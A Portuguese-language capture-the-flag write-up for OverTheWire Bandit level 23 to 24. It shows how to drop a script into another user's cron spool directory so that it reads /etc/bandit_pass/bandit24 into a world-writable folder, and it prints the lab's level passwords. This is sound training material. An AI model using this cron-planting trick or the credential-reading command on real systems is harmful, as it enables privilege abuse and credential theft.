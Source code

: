 # Level 23
**Tópicos**

- [X] [Goal](#goal)
- [X] [Comandos para o desafio](#comandos-para-esse-level)
- [X] [Um pouco de Teoria](#teoria)
- [X] [Write Up](#write-up)
- [X] [Solução](#soluçao)
- [X] [Resources](#resources)

## Goal
Um programa está rodando automaticamente em intervalos regulares do cron, o agendador de tarefas baseado em tempo. Procure em /etc/cron.d/ a configuração e veja qual comando está sendo executado.

*NOTE: Este nível requer que você crie seu próprio primeiro shell-script. Este é um passo muito grande e você deve se orgulhar de si mesmo ao vencer este nível!*

*NOTE: Lembre-se de que seu script de shell é removido após a execução, portanto, convém manter uma cópia por perto…*

## Comandos para esse level
`cron`, `crontab`, `crontab(5)`

*Nota: Nem todos os comandos listados são necessários*

 Comandos  |                          O que faz?
 ----------|--------
 cron      |daemon (é um programa de computador que executa como um processo em plano de fundo) para executar comandos programados
 crontab   |manter arquivos crontab para usuários individuais
 crontab(5)|tabelas para conduzir o cron
 
 **Obs:** Para saber mais informações sobre como usar os comandos, possíveis flags, etc. Use `comando --help` para obter um "resumo" do manual, ou `man comando` para acessar o manual do comando.


## Teoria
É a mesma teoria do level 22.


## Write up
**Informações**
- Host Name: `bandit.labs.overthewire.org`
- Username: `bandit23`
- Password: `QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G`
- Port Number: `2220`

**Passo a Passo**

***[# Passo1.]*** Conectar e logar no SSH usando as informações acima.

***[# Passo2.]*** Seguindo o enunciado iremos entrar no diretório `/etc/cron.d` e ver o que tem lá usando `ls`.

***[# Passo3.]*** Há diversos arquivos no `/etc/cron.d`. Iremos ver o que tem no `cronjob_bandit24` usando `cat`, já que queremos a senha para o bandit24.

***[# Passo4.]*** O código dentro do `cronjob_bandit24` significa que em um período de tempo um comando é executado. O comando nesse caso é rodar um arquivo `.sh`, e a stdout e stderr são descartados. Dessa maneira, vamos dar uma olhada nesse arquivo `.sh`, usando `cat` novamente.

O código dentro do `.sh` será executado pelo usuário bandit24 e significa que existe uma pasta `/var/spool/bandit24/foo` e que todos os scripts que tem como proprietário o usuário bandit23 serão executados e depois de 60s serão excluído. 

Dessa forma, vamos escrever um script que pega a senha do **bandit24** e coloca em um arquivo. 

***[# Passo5.]*** Vamos criar uma pasta e ir para ela, em que escreveremos nosso script-shell. Feito isso, usando um editor de texto, escreveremos um script que pega a senha do **bandit24** e colocaria em um arquivo chamado `password` dentro da pasta que criamos.


***[# Passo6.]*** Mudaremos as permissões em toda a pasta, pois quando o nosso script for rodado pelo **bandit24** terá as permissões do **bandit24**. 

***[# Passo7.]*** Agora, devemos criar um arquivo vazio chamado `password` na pasta que criamos. E copiar o script para o diretório  `/var/spool/bandit24/foo`. 

***[# Passo8.]*** Por fim, basta esperar um minuto e acessar o arquivo `password`

***[# Passo9.]*** Para sair, rode `exit`

## Solução
<prep>
[# Passo1.] 

<b>> ssh bandit23@bandit.labs.overthewire.org -p 2220</b>

bandit23@bandit.labs.overthewire.org's password: <b>QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G</b>

[# Passo2.]

<b>bandit23@bandit:~$</b> cd /etc/cron.d

<b>bandit23@bandit:/etc/cron.d$</b> ls

cronjob_bandit15_root  cronjob_bandit23       e2scrub_all

cronjob_bandit17_root  cronjob_bandit24       otw-tmp-dir

cronjob_bandit22       cronjob_bandit25_root  sysstat

[# Passo3.]

<b>bandit23@bandit:/etc/cron.d$</b> cat cronjob_bandit24

@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

[# Passo4.]

<b>bandit22@bandit:/etc/cron.d$</b> cat /usr/bin/cronjob_bandit24.sh

#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo

echo "Executing and deleting all scripts in /var/spool/$myname/foo:"

for i in * .*;

do

    if [ "$i" != "." -a "$i" != ".." ];

    then

        echo "Handling $i"

        owner="$(stat --format "%U" ./$i)"

        if [ "${owner}" = "bandit23" ]; then

            timeout -s 9 60 ./$i

        fi

        rm -f ./$i

    fi

done

[# Passo5.]

<b>bandit23@bandit:~$</b> mkdir /tmp/teste23

<b>bandit23@bandit:~$</b> cd /tmp/teste23

<b>bandit23@bandit:/tmp/teste23$</b> nano script.sh

<i>Editando o script.sh</i>

#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/teste23/password

[# Passo6.] 

<b>bandit23@bandit:/tmp/teste23$</b> chmod 777 -R /tmp/teste23

[# Passo7.] 

<b>bandit23@bandit:/tmp/teste23$</b> touch password

<b>bandit23@bandit:/tmp/teste23$</b> cp script.sh /var/spool/bandit24/foo

[# Passo8.] 

<b>bandit23@bandit:/tmp/teste23$</b> cat password

VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

[# Passo9.] 
<b>bandit23@bandit:~$</b> exit

logout         

Connection to bandit.labs.overthewire.org closed.
</prep>

**Credenciais para o Level 24:**
- Username: `bandit24`
- Password: `VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar`

## Resources
[OverTheWire](https://overthewire.org/wargames/bandit/bandit24.html)

